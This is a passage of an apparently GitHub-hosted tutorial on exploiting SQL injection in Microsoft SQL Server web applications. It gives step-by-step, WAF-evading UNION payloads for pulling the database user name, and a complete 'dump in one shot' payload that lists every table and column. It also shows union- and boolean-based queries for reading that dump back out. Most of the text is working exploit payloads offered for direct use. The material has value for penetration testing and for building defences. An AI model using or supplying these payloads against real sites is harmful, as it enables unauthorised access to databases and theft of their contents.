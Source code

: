 ```
Look at the error message, the database name will be displayed there.  

Retrieve username of database:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,user_name(),4-- -```  
Look at the error message, the database username will be displayed there.  

## Dumping database with DIOS

#### What is DIOS?

DIOS (dump in one shot), is a long crafted payload which will dump database(), tables() and columns() and will display it in the website.  

- Here is a list of MSSQL DIOS payloads:

```
;begin declare @x varchar(8000), @y int, @z varchar(50), @a varchar(100) declare @myTbl table (name varchar(8000) not null) SET @y=1 SET @x='injected by rummykhan :: '%2b@@version%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Database : '%2bdb_name()%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62) SET @z='' SET @a='' WHILE @y<=(SELECT COUNT(table_name) from INFORMATION_SCHEMA.TABLES) begin SET @a='' Select @z=table_name from INFORMATION_SCHEMA.TABLES where TABLE_NAME not in (select name from @myTbl) select @a=@a %2b column_name%2b' : ' from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME=@z insert @myTbl values(@z) SET @x=@x %2b  CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Table: '%2b@z%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Columns : '%2b@a%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62) SET @y = @y%2b1 end select @x as output into Chall1 END--
```

#### How to use DIOS?

- This is a special case where DIOS store the payload into an environment variable. We will use the UNION based payload which we found the vulnerable column, this case we used:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4-- -```  

- Delete every number and **-- -** from the payload, so the payload will look like:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/```  

- Right in the end of the payload add the DIOS payload:  

```
http://domain.com/index.php?id=1 /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ ;begin declare @x varchar(8000), @y int, @z varchar(50), @a varchar(100) declare @myTbl table (name varchar(8000) not null) SET @y=1 SET @x='injected by rummykhan :: '%2b@@version%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Database : '%2bdb_name()%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62) SET @z='' SET @a='' WHILE @y<=(SELECT COUNT(table_name) from INFORMATION_SCHEMA.TABLES) begin SET @a='' Select @z=table_name from INFORMATION_SCHEMA.TABLES where TABLE_NAME not in (select name from @myTbl) select @a=@a %2b column_name%2b' : ' from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME=@z insert @myTbl values(@z) SET @x=@x %2b  CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Table: '%2b@z%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Columns : '%2b@a%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62) SET @y = @y%2b1 end select @x as output into Kleiton0x00 END--
```  
- No output will be displayed because it is stored into an environment variable. We can access it by using one of the 2 following payload:  
  
  Union based query:  
  ```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,output,4-- -```  

  Boolean based query:  
  ```http://domain.com/index.php?id=1' and 1=cast(select output from Kleiton0x00)-- -```  

*NOTE: Replace the vulnerable column number (this case it was **3**). The number is found with UNION based payloads we did on the previous step.*  

- Look at the error message/website, the retrieved informations are shown.

![dios_dumped_db](https://i.imgur.com/OmWEciR.jpg)  
```